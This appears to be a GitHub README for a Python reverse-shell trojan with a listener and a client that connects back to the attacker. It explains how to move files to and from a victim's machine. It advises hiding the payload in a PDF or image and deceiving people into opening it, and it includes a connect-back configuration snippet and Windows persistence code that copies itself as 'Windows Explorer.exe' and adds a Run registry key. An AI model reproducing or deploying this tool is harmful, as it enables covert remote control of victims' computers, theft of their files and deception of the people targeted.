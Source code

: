 # Python Reverse Shell For Trojan
Runs a reverse shell via TCP with capacity of download and upload any file from your machine to the victim's machine and vice versa. You can hide it in a simple file (like a pdf), and using reverse engineering, you can to get the person you send file to run the program believing that this is a normal pdf (or another) file.
The tool consists of two files: listener.py and reverse_shell.py.
## listener.py
Runs a TCP server in the attacker's machine and goes into listening mode, waiting for the connection from victim's machine.
### Usage:
`python3 listener.py [OPTIONS]`
### Flags:
- **-i, --ip:** Ip address to listening
- **-p, --p:** Port number to listening
- **-h, --help:** Show list of commands

### Commands:
Once the victim has connected to our server, we can run the commands from his machine like a normal reverse shell, but also, this tool has 4 own commands:
- **exit, Exit:** Finishes client-server connection.
- **down:** Download any file from client's side to our machine. The structure has to be down + [dest_path] + [file_name]. Example: `$down /home/user/Documents/ file.txt`. Where [dest_path] is the route where we want to download the file **(don't add a file name here, just the path)**, and [file_name] is the name of the file in the victim's machine. The tool will use [file_name] to name the downloaded file.
- **up:** Up any file from our machine to the victim's machine. The structure has to be up + [dest_path] + [file_name]. Example: `$up /home/victim_folder/Desktop/folder/ /home/our_user/file.txt`

## reverse_shell.py
Connects via TCP to listener server.  It runs once a person opens it; you can hide it in a pdf file, png, jpg, etc. Use your social engineering skills to deceive people to open it ;).
### Configuration
At the end of the code, set the ip and port where to establish the connection:
```python
try: 
    backdoor = Backdoor('<ip>', <port>) # CHANGE HOST AND PORT HERE!
    backdoor.run()
except:
    sys.exit()
```
The ip and port have to be the same as you set in 'listener.py', because this is where connection will be established.
### Persistent mode
```python
def becomePersistent(self):
        fileLocation = os.environ['appdata'] + '\\Windows Explorer.exe'
        if not os.path.exists(fileLocation):
            shutil.copyfile(sys.executable, fileLocation)
            subprocess.call('reg add HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run /v update /t REG_SZ /d "' + fileLocation + '"', shell=True)
```
Locate the file into a hard-to-find path and runs it every time that the system turns on. In this case, the function creates a registry of the file and runs it when the machine turns on. As the reverse shell is destined to a common user, the persistent mode is made to run into Windows system (because a common user uses Windows).

**Important:** If you want to test the persistent mode, I recommend you do it into a virtual machine to avoid some damage into your own computer.



